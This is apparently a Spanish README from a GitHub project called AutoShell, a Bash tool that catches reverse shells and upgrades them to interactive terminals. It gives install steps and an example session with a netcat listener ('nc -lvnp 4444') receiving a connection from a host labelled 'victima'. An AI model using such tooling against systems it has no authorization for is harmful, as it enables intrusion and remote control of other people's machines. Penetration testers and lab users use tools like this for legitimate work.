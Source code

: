 # AutoShell 🚀

Herramienta para automatizar la mejora de shells inversas a TTY completamente interactivas con detección inteligente de entornos.

## 📦 Instalación

```bash
git clone https://github.com//Mayky23/AutoShell.git
cd AutoShell
chmod +x AutoShell.sh
```

## 🛠 Uso básico

```bash
# Modo básico
./AutoShell.sh <puerto>

# Especificar IP y puerto
./AutoShell.sh <ip> <puerto>
```

## 🌟 Ejemplo de uso

```bash
$ ./AutoShell.sh 4444
[*] Iniciando listener en 0.0.0.0:4444
[*] Comando: nc -lvnp 4444
[*] Esperando conexión...
connect to [192.168.1.10] from (UNKNOWN) [192.168.1.20] 55892
[+] Conexión establecida
[*] Estabilizando shell...
[+] Shell lista! Tomando control...

user@victima:/home$  # Shell completamente interactiva
```

## 🛡 Características clave

✔️ Autodetección de Python/alternativas

✔️ Soporte para IPv4/IPv6

✔️ Validación de parámetros robusta

✔️ Limpieza automática de recursos

✔️ Configuración óptima de terminal
